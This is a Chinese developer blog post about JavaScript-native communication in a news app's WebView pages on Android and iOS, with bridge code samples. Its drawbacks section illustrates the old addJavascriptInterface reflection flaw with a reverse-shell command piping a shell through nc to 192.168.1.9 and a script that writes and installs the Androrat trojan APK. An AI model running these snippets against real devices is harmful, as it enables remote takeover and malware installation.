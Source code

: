 ```yaml
---
layout: post
title: 在APP中实现js与native通信
categories:
- 前端
tags:
- native通信
- 新闻客户端
- jsbridge
---
```


在订制腾讯新闻客户端的汽车页卡时，有些页面是用HTML页面实现的。比如车系详情页，车型详情页。这类页面因为汽车运营的关系具有不定期更新的特点。比如车型降价，新车上市等。使用HTML页面之后，有些数据需要从客户端传递过来，也有一些数据需要从页面传递到客户端，也就是HTML与客户端之间通信的问题。

## Android平台

### Android调用JS

{% highlight java %}
WebView.loadUrl("javascript:onJsAndroid()");
{% endhighlight %}

### JS调用Android

{% highlight java %}
// Android java代码
mWebView.addJavascriptInterface(new Class(),"android");  

public class Class(){
  @JavascriptInterface
  public void methodOne(){

  }
} 

// js 代码
window.android.methodOne();
{% endhighlight %}

### 弊端
在Android 4.2之前的版本中，通过addJavascriptInterface然后利用java的反射机制，可以回调java类中的内置静态变量。

首先，通过java可以反弹shell，这样可以读写Android文件系统。
{% highlight javascript %}
function execute(cmdArgs)
{
  return XXX.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
execute(["/system/bin/sh","-c","nc 192.168.1.9 8088|/system/bin/sh|nc 192.168.1.9 9999"]);
alert("ok3");
{% endhighlight %}

其次，可以对网页挂马，安装apk到手机中
{% highlight javascript %}
function execute(cmdArgs)
{
  return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 
 
var armBinary1 = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4"
 
var armBinary2="x1BxB0x65x0AxADx23xC2x30x64xDFxEExA1x0DxA4xE8x3Fx61x80xEExBCxE1xE7x7Bx4Ax25x6Fx8Bx36x71xC3x80x81x58xDBxC9x8Fx53x9FxEEx8Ax45xAFx23x54x4AxCFx2Bx52xF2x33x84xBAx82x36xC4x0Dx08xAFxC2x61x8ExD8x7Bx0BxFCx88x4Ax25x24x8Cx22xFAx76x44x78x5Ex99x62x30x44x8DxDBx74x94"
 
var armBinary3="…"
var armBinary4="…"
// ……
var patharm = "/mnt/sdcard/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary1+ > " + patharm]);

execute(["/system/bin/sh","-c","echo -n +armBinary2+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo  -n +armBinary3+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo -n +armBinary4+ >> " + patharm]);
execute(["/system/bin/sh","-c","adb install /mnt/sdcard/Androrat.apk"]);

{% endhighlight %}
以上流程，可以将apk进行拆分，利用echo写入到文件系统中，然后利用adb进行安装。

在Android 4.2版本中，开始使用@JavascriptInterface，然后在java代码中验证js调用的每个参数，屏蔽攻击代码，可以防止攻击。

汽车垂直化方案
新闻客户端提供两种js调用native的方式

* url scheme方式
通过伪协议"jsbridge://get_with_json_data?json=params", native代码重写shouldOverrideUrlLoading来做相关接口的实现和白名单控制
{% highlight javascript %}
/**
 * webview代码中通过监听onLoadResource触发调用Java方法
 */
function resourceCall() {
  var paramsArray = S.call(arguments, 0);
  var img = new Image();
  img.onload = function() {
    img = null;
  };
  img.src = 'jsbridge://get_with_json_data?json=' + encodeURIComponent(arrayToJsonString(paramsArray));
}
{% endhighlight %}
* prompt方式
这种方式是通过native重写onJsPrompt，拦截webview中的window.prompt并且获取其中的参数，处理完成之后需要调用JsPromptResult的confirm方法。
{% highlight javascript %}
/**
 * 通过prompt调用Java对象方法
 */
function promptCall() {
  var paramsArray = S.call(arguments, 0);
  var jsonResult = prompt(arrayToJsonString(paramsArray));
  var re = JSON.parse(jsonResult);
  if (re.code != 200) {
    throw "call error, code:" + re.code + ", message:" + re.result;
  }
  return re.result;
}
{% endhighlight %}

更多Android下js调用native的方案见此：[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

将与native通信用到的接口挂载在window.XXX下，调用window.XXX.YYY就可以调用native的方法。

## iOS平台
### iOS调用JS

{% highlight objective-c %}
// stringByEvaluatingJavaScriptFromString可以将字符串当做js来执行，在全局变量中定义js方法之后，OC就可以调用
- (void)webViewDidFinishLoad:(UIWebView *)webView {  
  NSString *currentURL = [webView stringByEvaluatingJavaScriptFromString:@"document.location.href"];
}
{% endhighlight %}

### JS调用iOS
js调用iOS，用到了开源库[TGJSBridge](https://github.com/ohsc/TGJSBridge)。其基本原理是利用伪协议"jsbridge://PostNotificationWithId-"，在native代码shouldStartLoadWithRequest中捕获并解析请求，然后调用相关的native逻辑。使用流程如下。
{% highlight javascript %}
// js向native发送修改页面标题的通知
jsBridge.postNotification('setTitle', {
  title : data.value
});
{% endhighlight %}
{% highlight objective-c %}
// 初始化jsBridge
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    NSString *jsBridgePath = [[NSBundle mainBundle] pathForResource:@"TGJSBridge" ofType:@"js"];
    NSString *jsBridge = [NSString stringWithContentsOfFile:jsBridgePath encoding:NSUTF8StringEncoding error:nil];
    [self.webView stringByEvaluatingJavaScriptFromString:jsBridge];
    
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
    [self showLoading:NO animated:YES];
}

// 响应js端发送的通知"setTitle",修改页面标题
- (void)jsBridge:(TGJSBridge *)bridge setTitleWithUserInfo:(NSDictionary *)userInfo fromWebView:(UIWebView *)webview
{
//    NSString *titleName = QNString([userInfo objectForKey:@"title"], _carSerialName);
    ((QNTitleView *)self.qn_navigationItem.titleView).text = QNString([userInfo objectForKey:@"title"], _carSerialName);
}
{% endhighlight %}

在js调用iOS时，有一个前提，就是native代码中需要首先完成jsBridge的初始化。TGJSBridge提供了一个jsBridgeReady的事件，js端监听jsBridgeReady事件并在事件处理函数中再向native发送通知。

但是有个问题，新闻客户端将TGJSBridge.js文件打包到了安装包中，web页面无需再引入此js文件。在处理像设置页面标题这种问题时，即页面加载完成之后就需要马上向native发送通知的情况，就会有问题。

* js端直接调用jsBridge.bind('jsBridgeReady')——jsBridge可能还未初始化，并不在window的context中。
* 将jsBridge初始化操作提前，放在webViewDidStartLoad——jsBridgeReady已经被触发，但是页面js端还没开始监听jsBridgeReady事件。

native与js的jsBridge初始化调用顺序相互依赖，需要处理好，才能解决像setTitle这种操作。

**新闻客户端汽车页卡车系详情页的解决方式**
{% highlight javascript %}
//提供给ios调用的方法
var mutex = false;
window.onJsBridgeReady = function(){
  if(mutex){
    return;
  }
  try{
    nanoEvtProxy.on('iosnews:settit', function(data){
      jsBridge.postNotification('setTitle', {
        title : data.value
      });
    });
    nanoEvtProxy.trigger('iosnews:ready');
  }catch(e){

  }
  mutex = true;
}

// iosnews:ready被触发之后，说明native已经完成jsBridge初始化工作。
// 然后再触发iosnews:settit事件，
// 而在上面的代码中iosnews:settit事件已经完成监听，可以向native发送通知。
nanoEvtProxy.on('iosnews:ready', function(e, data){
  nanoEvtProxy.trigger('iosnews:settit', data);  
});
{% endhighlight %}

{% highlight objective-c %}
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    
    // jsBridge初始化代码
    
    // 页面加载完成之后调用页面中定义的onJsBridgeReady方法
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
}
{% endhighlight %}

以上流程中，各种事件的监听和触发确实比较绕。但是梳理下来，是可以保证页面标题能正常而且尽可能快的被设置的。

## 参考
[WebView中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)

[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

[WebView中JavaScript与Objective-C的交互](http://blog.csdn.net/perry_xiao/article/details/8027249)
